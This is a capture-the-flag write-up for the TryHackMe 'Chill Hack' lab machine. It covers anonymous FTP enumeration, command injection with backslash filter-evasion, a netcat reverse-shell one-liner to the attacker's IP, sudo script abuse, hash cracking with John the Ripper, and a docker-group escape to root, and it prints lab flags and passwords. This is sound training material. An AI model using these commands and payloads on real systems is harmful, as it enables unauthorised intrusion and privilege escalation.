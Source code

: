 `Tryhackme  Chill Hack`
--
By :- Unknownperson
-- 

## Open Port's 
--

Open 10.10.0.215:21
Open 10.10.0.215:22
Open 10.10.0.215:80


Nmap Scan :- 
--

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.17.84.227
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
|   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
|_  256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Game Info
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel


## FTP have Anonymous login 
File get throw that is note.txt :- Anurodh told me that there is some filtering on strings being put in the command -- Apaar

User :- Anurodh , apaar
--

Than Doing the Directory Search throw dirb , gobuster
--

## Intresting Directory Get :- http://10.10.0.215/secret/
## where We can Inject Command's

we can filtering command in this way :- 
l\s -la
c\a\t


> so now we have to get revshell using this type of command

r\m /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.17.84.227 5555 >/tmp/f
--

>  WOW We got our Firsh Shell

Currently we are www user let check sudo -l 
--

## sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh

> let's check helpline.sh file 
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

> Like this will run the Command lets Take account of Apaar

sudo -u apaar /home/apaar/.helpline.sh
1st input :- jdsfdshf
2nd input :- /bin/bash
--

## At this way we have 1st user apaar

apaar@ubuntu:~$ cat loca	
cat local.txt 
{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}

Now we Add our id_rsa.pub in apaar/.ssh/authorized_key
to get better shell

## Privillage Escalation

> There is file in :- root@4989422d1c1a:/var/www/files# ls
account.php  hacker.php  images  index.php  style.css

> in hacker.php there is image in /imges folder hacker-with-laptop_23-2147985341.jpg

> that sims priseous to us which give us output's
> we get throw python3 http.server 8888 hosting 
> than we get to know it is password Protected

Than we purforme this command's:- 

zip2john hacker-with-laptop_23-2147985341.jpg > hash
john hash --wordlist=/usr/share/wordlist/rockyou.txt
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
pass1word        (backup.zip/source_code.php)     
1g 0:00:00:00 DONE (2024-09-07 11:09) 2.083g/s 34133p/s 34133c/s 34133C/s toodles..christal
--

-> Now we ahve source.php
it contain password in base64 we convert it and we have password as :- 
!d0ntKn0wmYp@ssw0rd

Now we can login in anurdh  
--

## After we check id which is  :- uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)

> So throw gtfo bins we run this command 

## docker run -v /:/mnt --rm -it alpine chroot /mnt bash
and we get Root Shell

## And We Creack it the Room

